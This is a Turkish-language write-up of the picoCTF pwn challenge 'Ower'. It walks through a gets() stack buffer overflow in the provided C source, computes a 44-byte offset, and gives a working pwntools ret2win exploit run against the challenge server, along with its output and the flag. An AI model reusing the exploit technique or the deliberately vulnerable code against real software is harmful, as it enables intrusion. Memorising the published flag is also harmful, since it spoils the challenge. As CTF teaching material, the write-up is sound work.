

# Ower - PWN Challenge Writeup


## 📋 Challenge Bilgileri

- **Challenge Adı**: Ower
- **Kategori**: Pwn (Binary Exploitation)
- **Seviye**: Orta

### Açıklama
> "Lokalde flagi bul sonra sunucudakini bulursun. İp ban yemeyelim. :)"

---

## 🎯 Çözüm Özeti

Bu challenge klasik bir **Buffer Overflow** ve **ret2win** saldırısı gerektiriyor. Güvensiz `gets()` fonksiyonu kullanılarak stack üzerindeki return adresini manipüle edip, `win()` fonksiyonuna atlayarak flag'i okuyacağız.

**Flag**: `picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`

---

## 🔍 Recon (Keşif)

### 1. Dosya Analizi

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ file vuln      
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped

┌──(kali㉿kali)-[~/Desktop]
└─$ file vuln.c 
vuln.c: C source, ASCII text
```

**Önemli Noktalar:**
- ✅ 32-bit ELF binary
- ✅ Not stripped (debug sembolleri var)
- ✅ Dynamically linked
- ✅ Kaynak kod mevcut

### 2. Kaynak Kod İncelemesi

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);  // ⚠️ ZAFİYET! Sınır kontrolü yok
  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

#### 🔴 Tespit Edilen Zafiyetler

| Zafiyet | Açıklama |
|---------|----------|
| **Buffer Overflow** | `gets(buf)` fonksiyonu sınır kontrolü yapmaz |
| **Hedef Fonksiyon** | `win()` fonksiyonu flag'i okuyup yazdırıyor |
| **Buffer Boyutu** | 32 byte (`BUFSIZE`) |
| **Korumasız Return** | Return adresi manipüle edilebilir |

### 3. Güvenlik Mekanizmalarının Kontrolü

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ checksec vuln
[*] '/home/kali/Desktop/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found          ⚠️ Stack koruması YOK
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)       ⚠️ ASLR YOK (Sabit adresler)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

**Sonuç**: Binary hiçbir modern güvenlik mekanizmasına sahip değil! 🎉

---

## 🛠️ Exploitation

### Adım 1: Win Fonksiyonunun Adresini Bulma

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ objdump -d vuln | grep "<win>:"
080491f6 <win>:
```

**`win()` fonksiyon adresi**: `0x080491f6`

### Adım 2: Offset Hesaplama

Stack layout'u anlamak için offset hesaplayalım:

```
┌─────────────────────┐  ← Yüksek Adres
│   Return Address    │  +44 byte → Buraya win() adresi yazılacak
├─────────────────────┤  +40 byte
│   Saved EBP (4B)    │  
├─────────────────────┤  +36 byte
│   Padding (8B)      │  
├─────────────────────┤  +32 byte
│                     │
│   Buffer (32 byte)  │  +0 byte → Buradan başlıyoruz
│                     │
└─────────────────────┘  ← Düşük Adres (ESP)
```

**Offset Hesabı:**
- Buffer: 32 byte
- Padding + Saved EBP: 12 byte
- **Toplam**: 44 byte

### Adım 3: Payload Oluşturma

```python
offset = 44
win_addr = 0x080491f6

payload = b'A' * offset              # Buffer'ı doldur
payload += p32(win_addr)             # Return adresini değiştir (little-endian)
```

**Little-Endian Format:**
- Adres: `0x080491f6`
- Bytes: `\xf6\x91\x04\x08`

---

## 💻 Exploit Kodları

### Yöntem 1: Pwntools ile (Önerilen)

```python
#!/usr/bin/env python3
from pwn import *

# Binary ayarları
elf = ELF('./vuln')
context.binary = elf
context.log_level = 'info'

# win() adresi
win_addr = 0x080491f6

# Payload oluştur
offset = 44
payload = b'A' * offset
payload += p32(win_addr)

# Bağlantı seçimi
if args.LOCAL:
    # Local test için flag.txt oluştur
    with open('flag.txt', 'w') as f:
        f.write('picoCTF{test_flag_local}\n')
    p = process('./vuln')
else:
    # Remote bağlantı
    p = remote('saturn.picoctf.net', 64431)

# Exploit gönder
log.info("Payload gönderiliyor...")
p.sendlineafter(b'string: ', payload)

# Flag'i al
log.success("Flag alındı!")
p.interactive()
```

**Kullanım:**
```bash
# Pwntools yükle (Kali Linux için)
sudo apt install python3-pwntools

# Local test
python3 exploit.py LOCAL

# Remote attack
python3 exploit.py
```

---

## 🚀 Exploit Çalıştırma

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 exploit.py
[*] '/home/kali/Desktop/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Opening connection to saturn.picoctf.net on port 64431: Done
[DEBUG] Received 0x1b bytes:
    b'Please enter your string: \n'
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  f6 91 04 08  │AAAA│AAAA│AAAA│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[DEBUG] Received 0x40 bytes:
    b'Okay, time to return... Fingers Crossed... Jumping to 0x80491f6\n'
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
[DEBUG] Received 0x24 bytes:
    b'picoCTF{addr3ss3s_ar3_3asy_6462ca2d}'
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
[*] Got EOF while reading in interactive
```

---

## 🏆 Flag

```
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```

---

## 📊 Saldırı Akışı



---

## 🧠 Teknik Detaylar

### Buffer Overflow Nasıl Çalışır?

1. **Normal Program Akışı:**
   ```
   main() → vuln() → gets() → return to main() → exit
   ```

2. **Exploit Sonrası:**
   ```
   main() → vuln() → gets() → return to win() → print flag → crash
   ```

### Stack Durumu (Exploit Öncesi vs Sonrası)

#### Öncesi:
```
[Buffer: 32B][Padding: 12B][Return: main adresi]
```

#### Sonrası:
```
[AAAAA...: 44B][Return: 0x080491f6 (win)]
```

### Assembly Seviyesinde

```asm
; vuln() fonksiyonunun sonu
leave                    ; ESP ve EBP restore
ret                      ; [ESP] adresine atla (normalde main, şimdi win!)
```

---
